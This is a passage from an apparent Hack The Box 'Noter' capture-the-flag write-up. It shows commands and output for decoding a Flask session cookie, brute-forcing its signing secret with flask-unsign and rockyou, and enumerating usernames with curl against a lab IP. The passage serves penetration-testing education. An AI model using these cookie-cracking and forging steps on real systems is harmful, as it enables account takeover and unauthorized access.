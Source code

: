 ```sh
  Stored in directory: /root/.cache/pip/wheels/ff/44/1f/f674330d4f2fc8883f4c7481bcb6b5976a6031d4c9ac0519b2
Successfully built flask-unsign
Installing collected packages: flask-unsign
Successfully installed flask-unsign-1.2.0

┌──(root㉿kali)-[~/htb/noter/jwt_tool]
└─# flask-unsign --decode --cookie eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoicGVuY2VyIn0.YooeDw.D4rdGtUEnP-UzSx1R7ESXw9HqpQ
{'logged_in': True, 'username': 'pencer'}
```

## Cracking Cookie

Looking good, next let's try and brute force the secret using the ctf favourite wordlist:

```sh
┌──(root㉿kali)-[~/htb/noter/jwt_tool]
└─# flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoicGVuY2VyIn0.YooeDw.D4rdGtUEnP-UzSx1R7ESXw9HqpQ' --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'pencer'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 18304 attempts
b'secret123'
```

We now have the secret used to encrypt our cookie. So the next step is to find another valid user, and then we can use the same secret to sign our own cookie as that user.

## Username Enumeration

First we need to look back at the login page, but let's use curl this time. So if we login in with valid credentials we see a redirect:

```sh
┌──(root㉿kali)-[~/htb/noter]
└─# curl -s --data-binary 'username=pencer&password=pencer' 'http://10.10.11.160:5000/login'                   
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 226
Location: http://10.10.11.160:5000/dashboard
Vary: Cookie
Set-Cookie: session=.eJwlx0EKgCAQBdCrDH_tCbxJRIjYz4Iaw0laRHdPaPV4D8KyR1tp8OMDuTqwlhLN4DCUJrFStNyyl5w5y6aY3snhb-j1V210aMaq8SA8TmpixfsB6iggUg.YopboQ.PcLgeKFSvJ-L5fMossKbAO16EqQ; HttpOnly; Path=/
Server: Werkzeug/2.0.2 Python/3.8.10
Date: Sun, 22 May 2022 15:49:53 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/dashboard">/dashboard</a>. If not click the link.
```
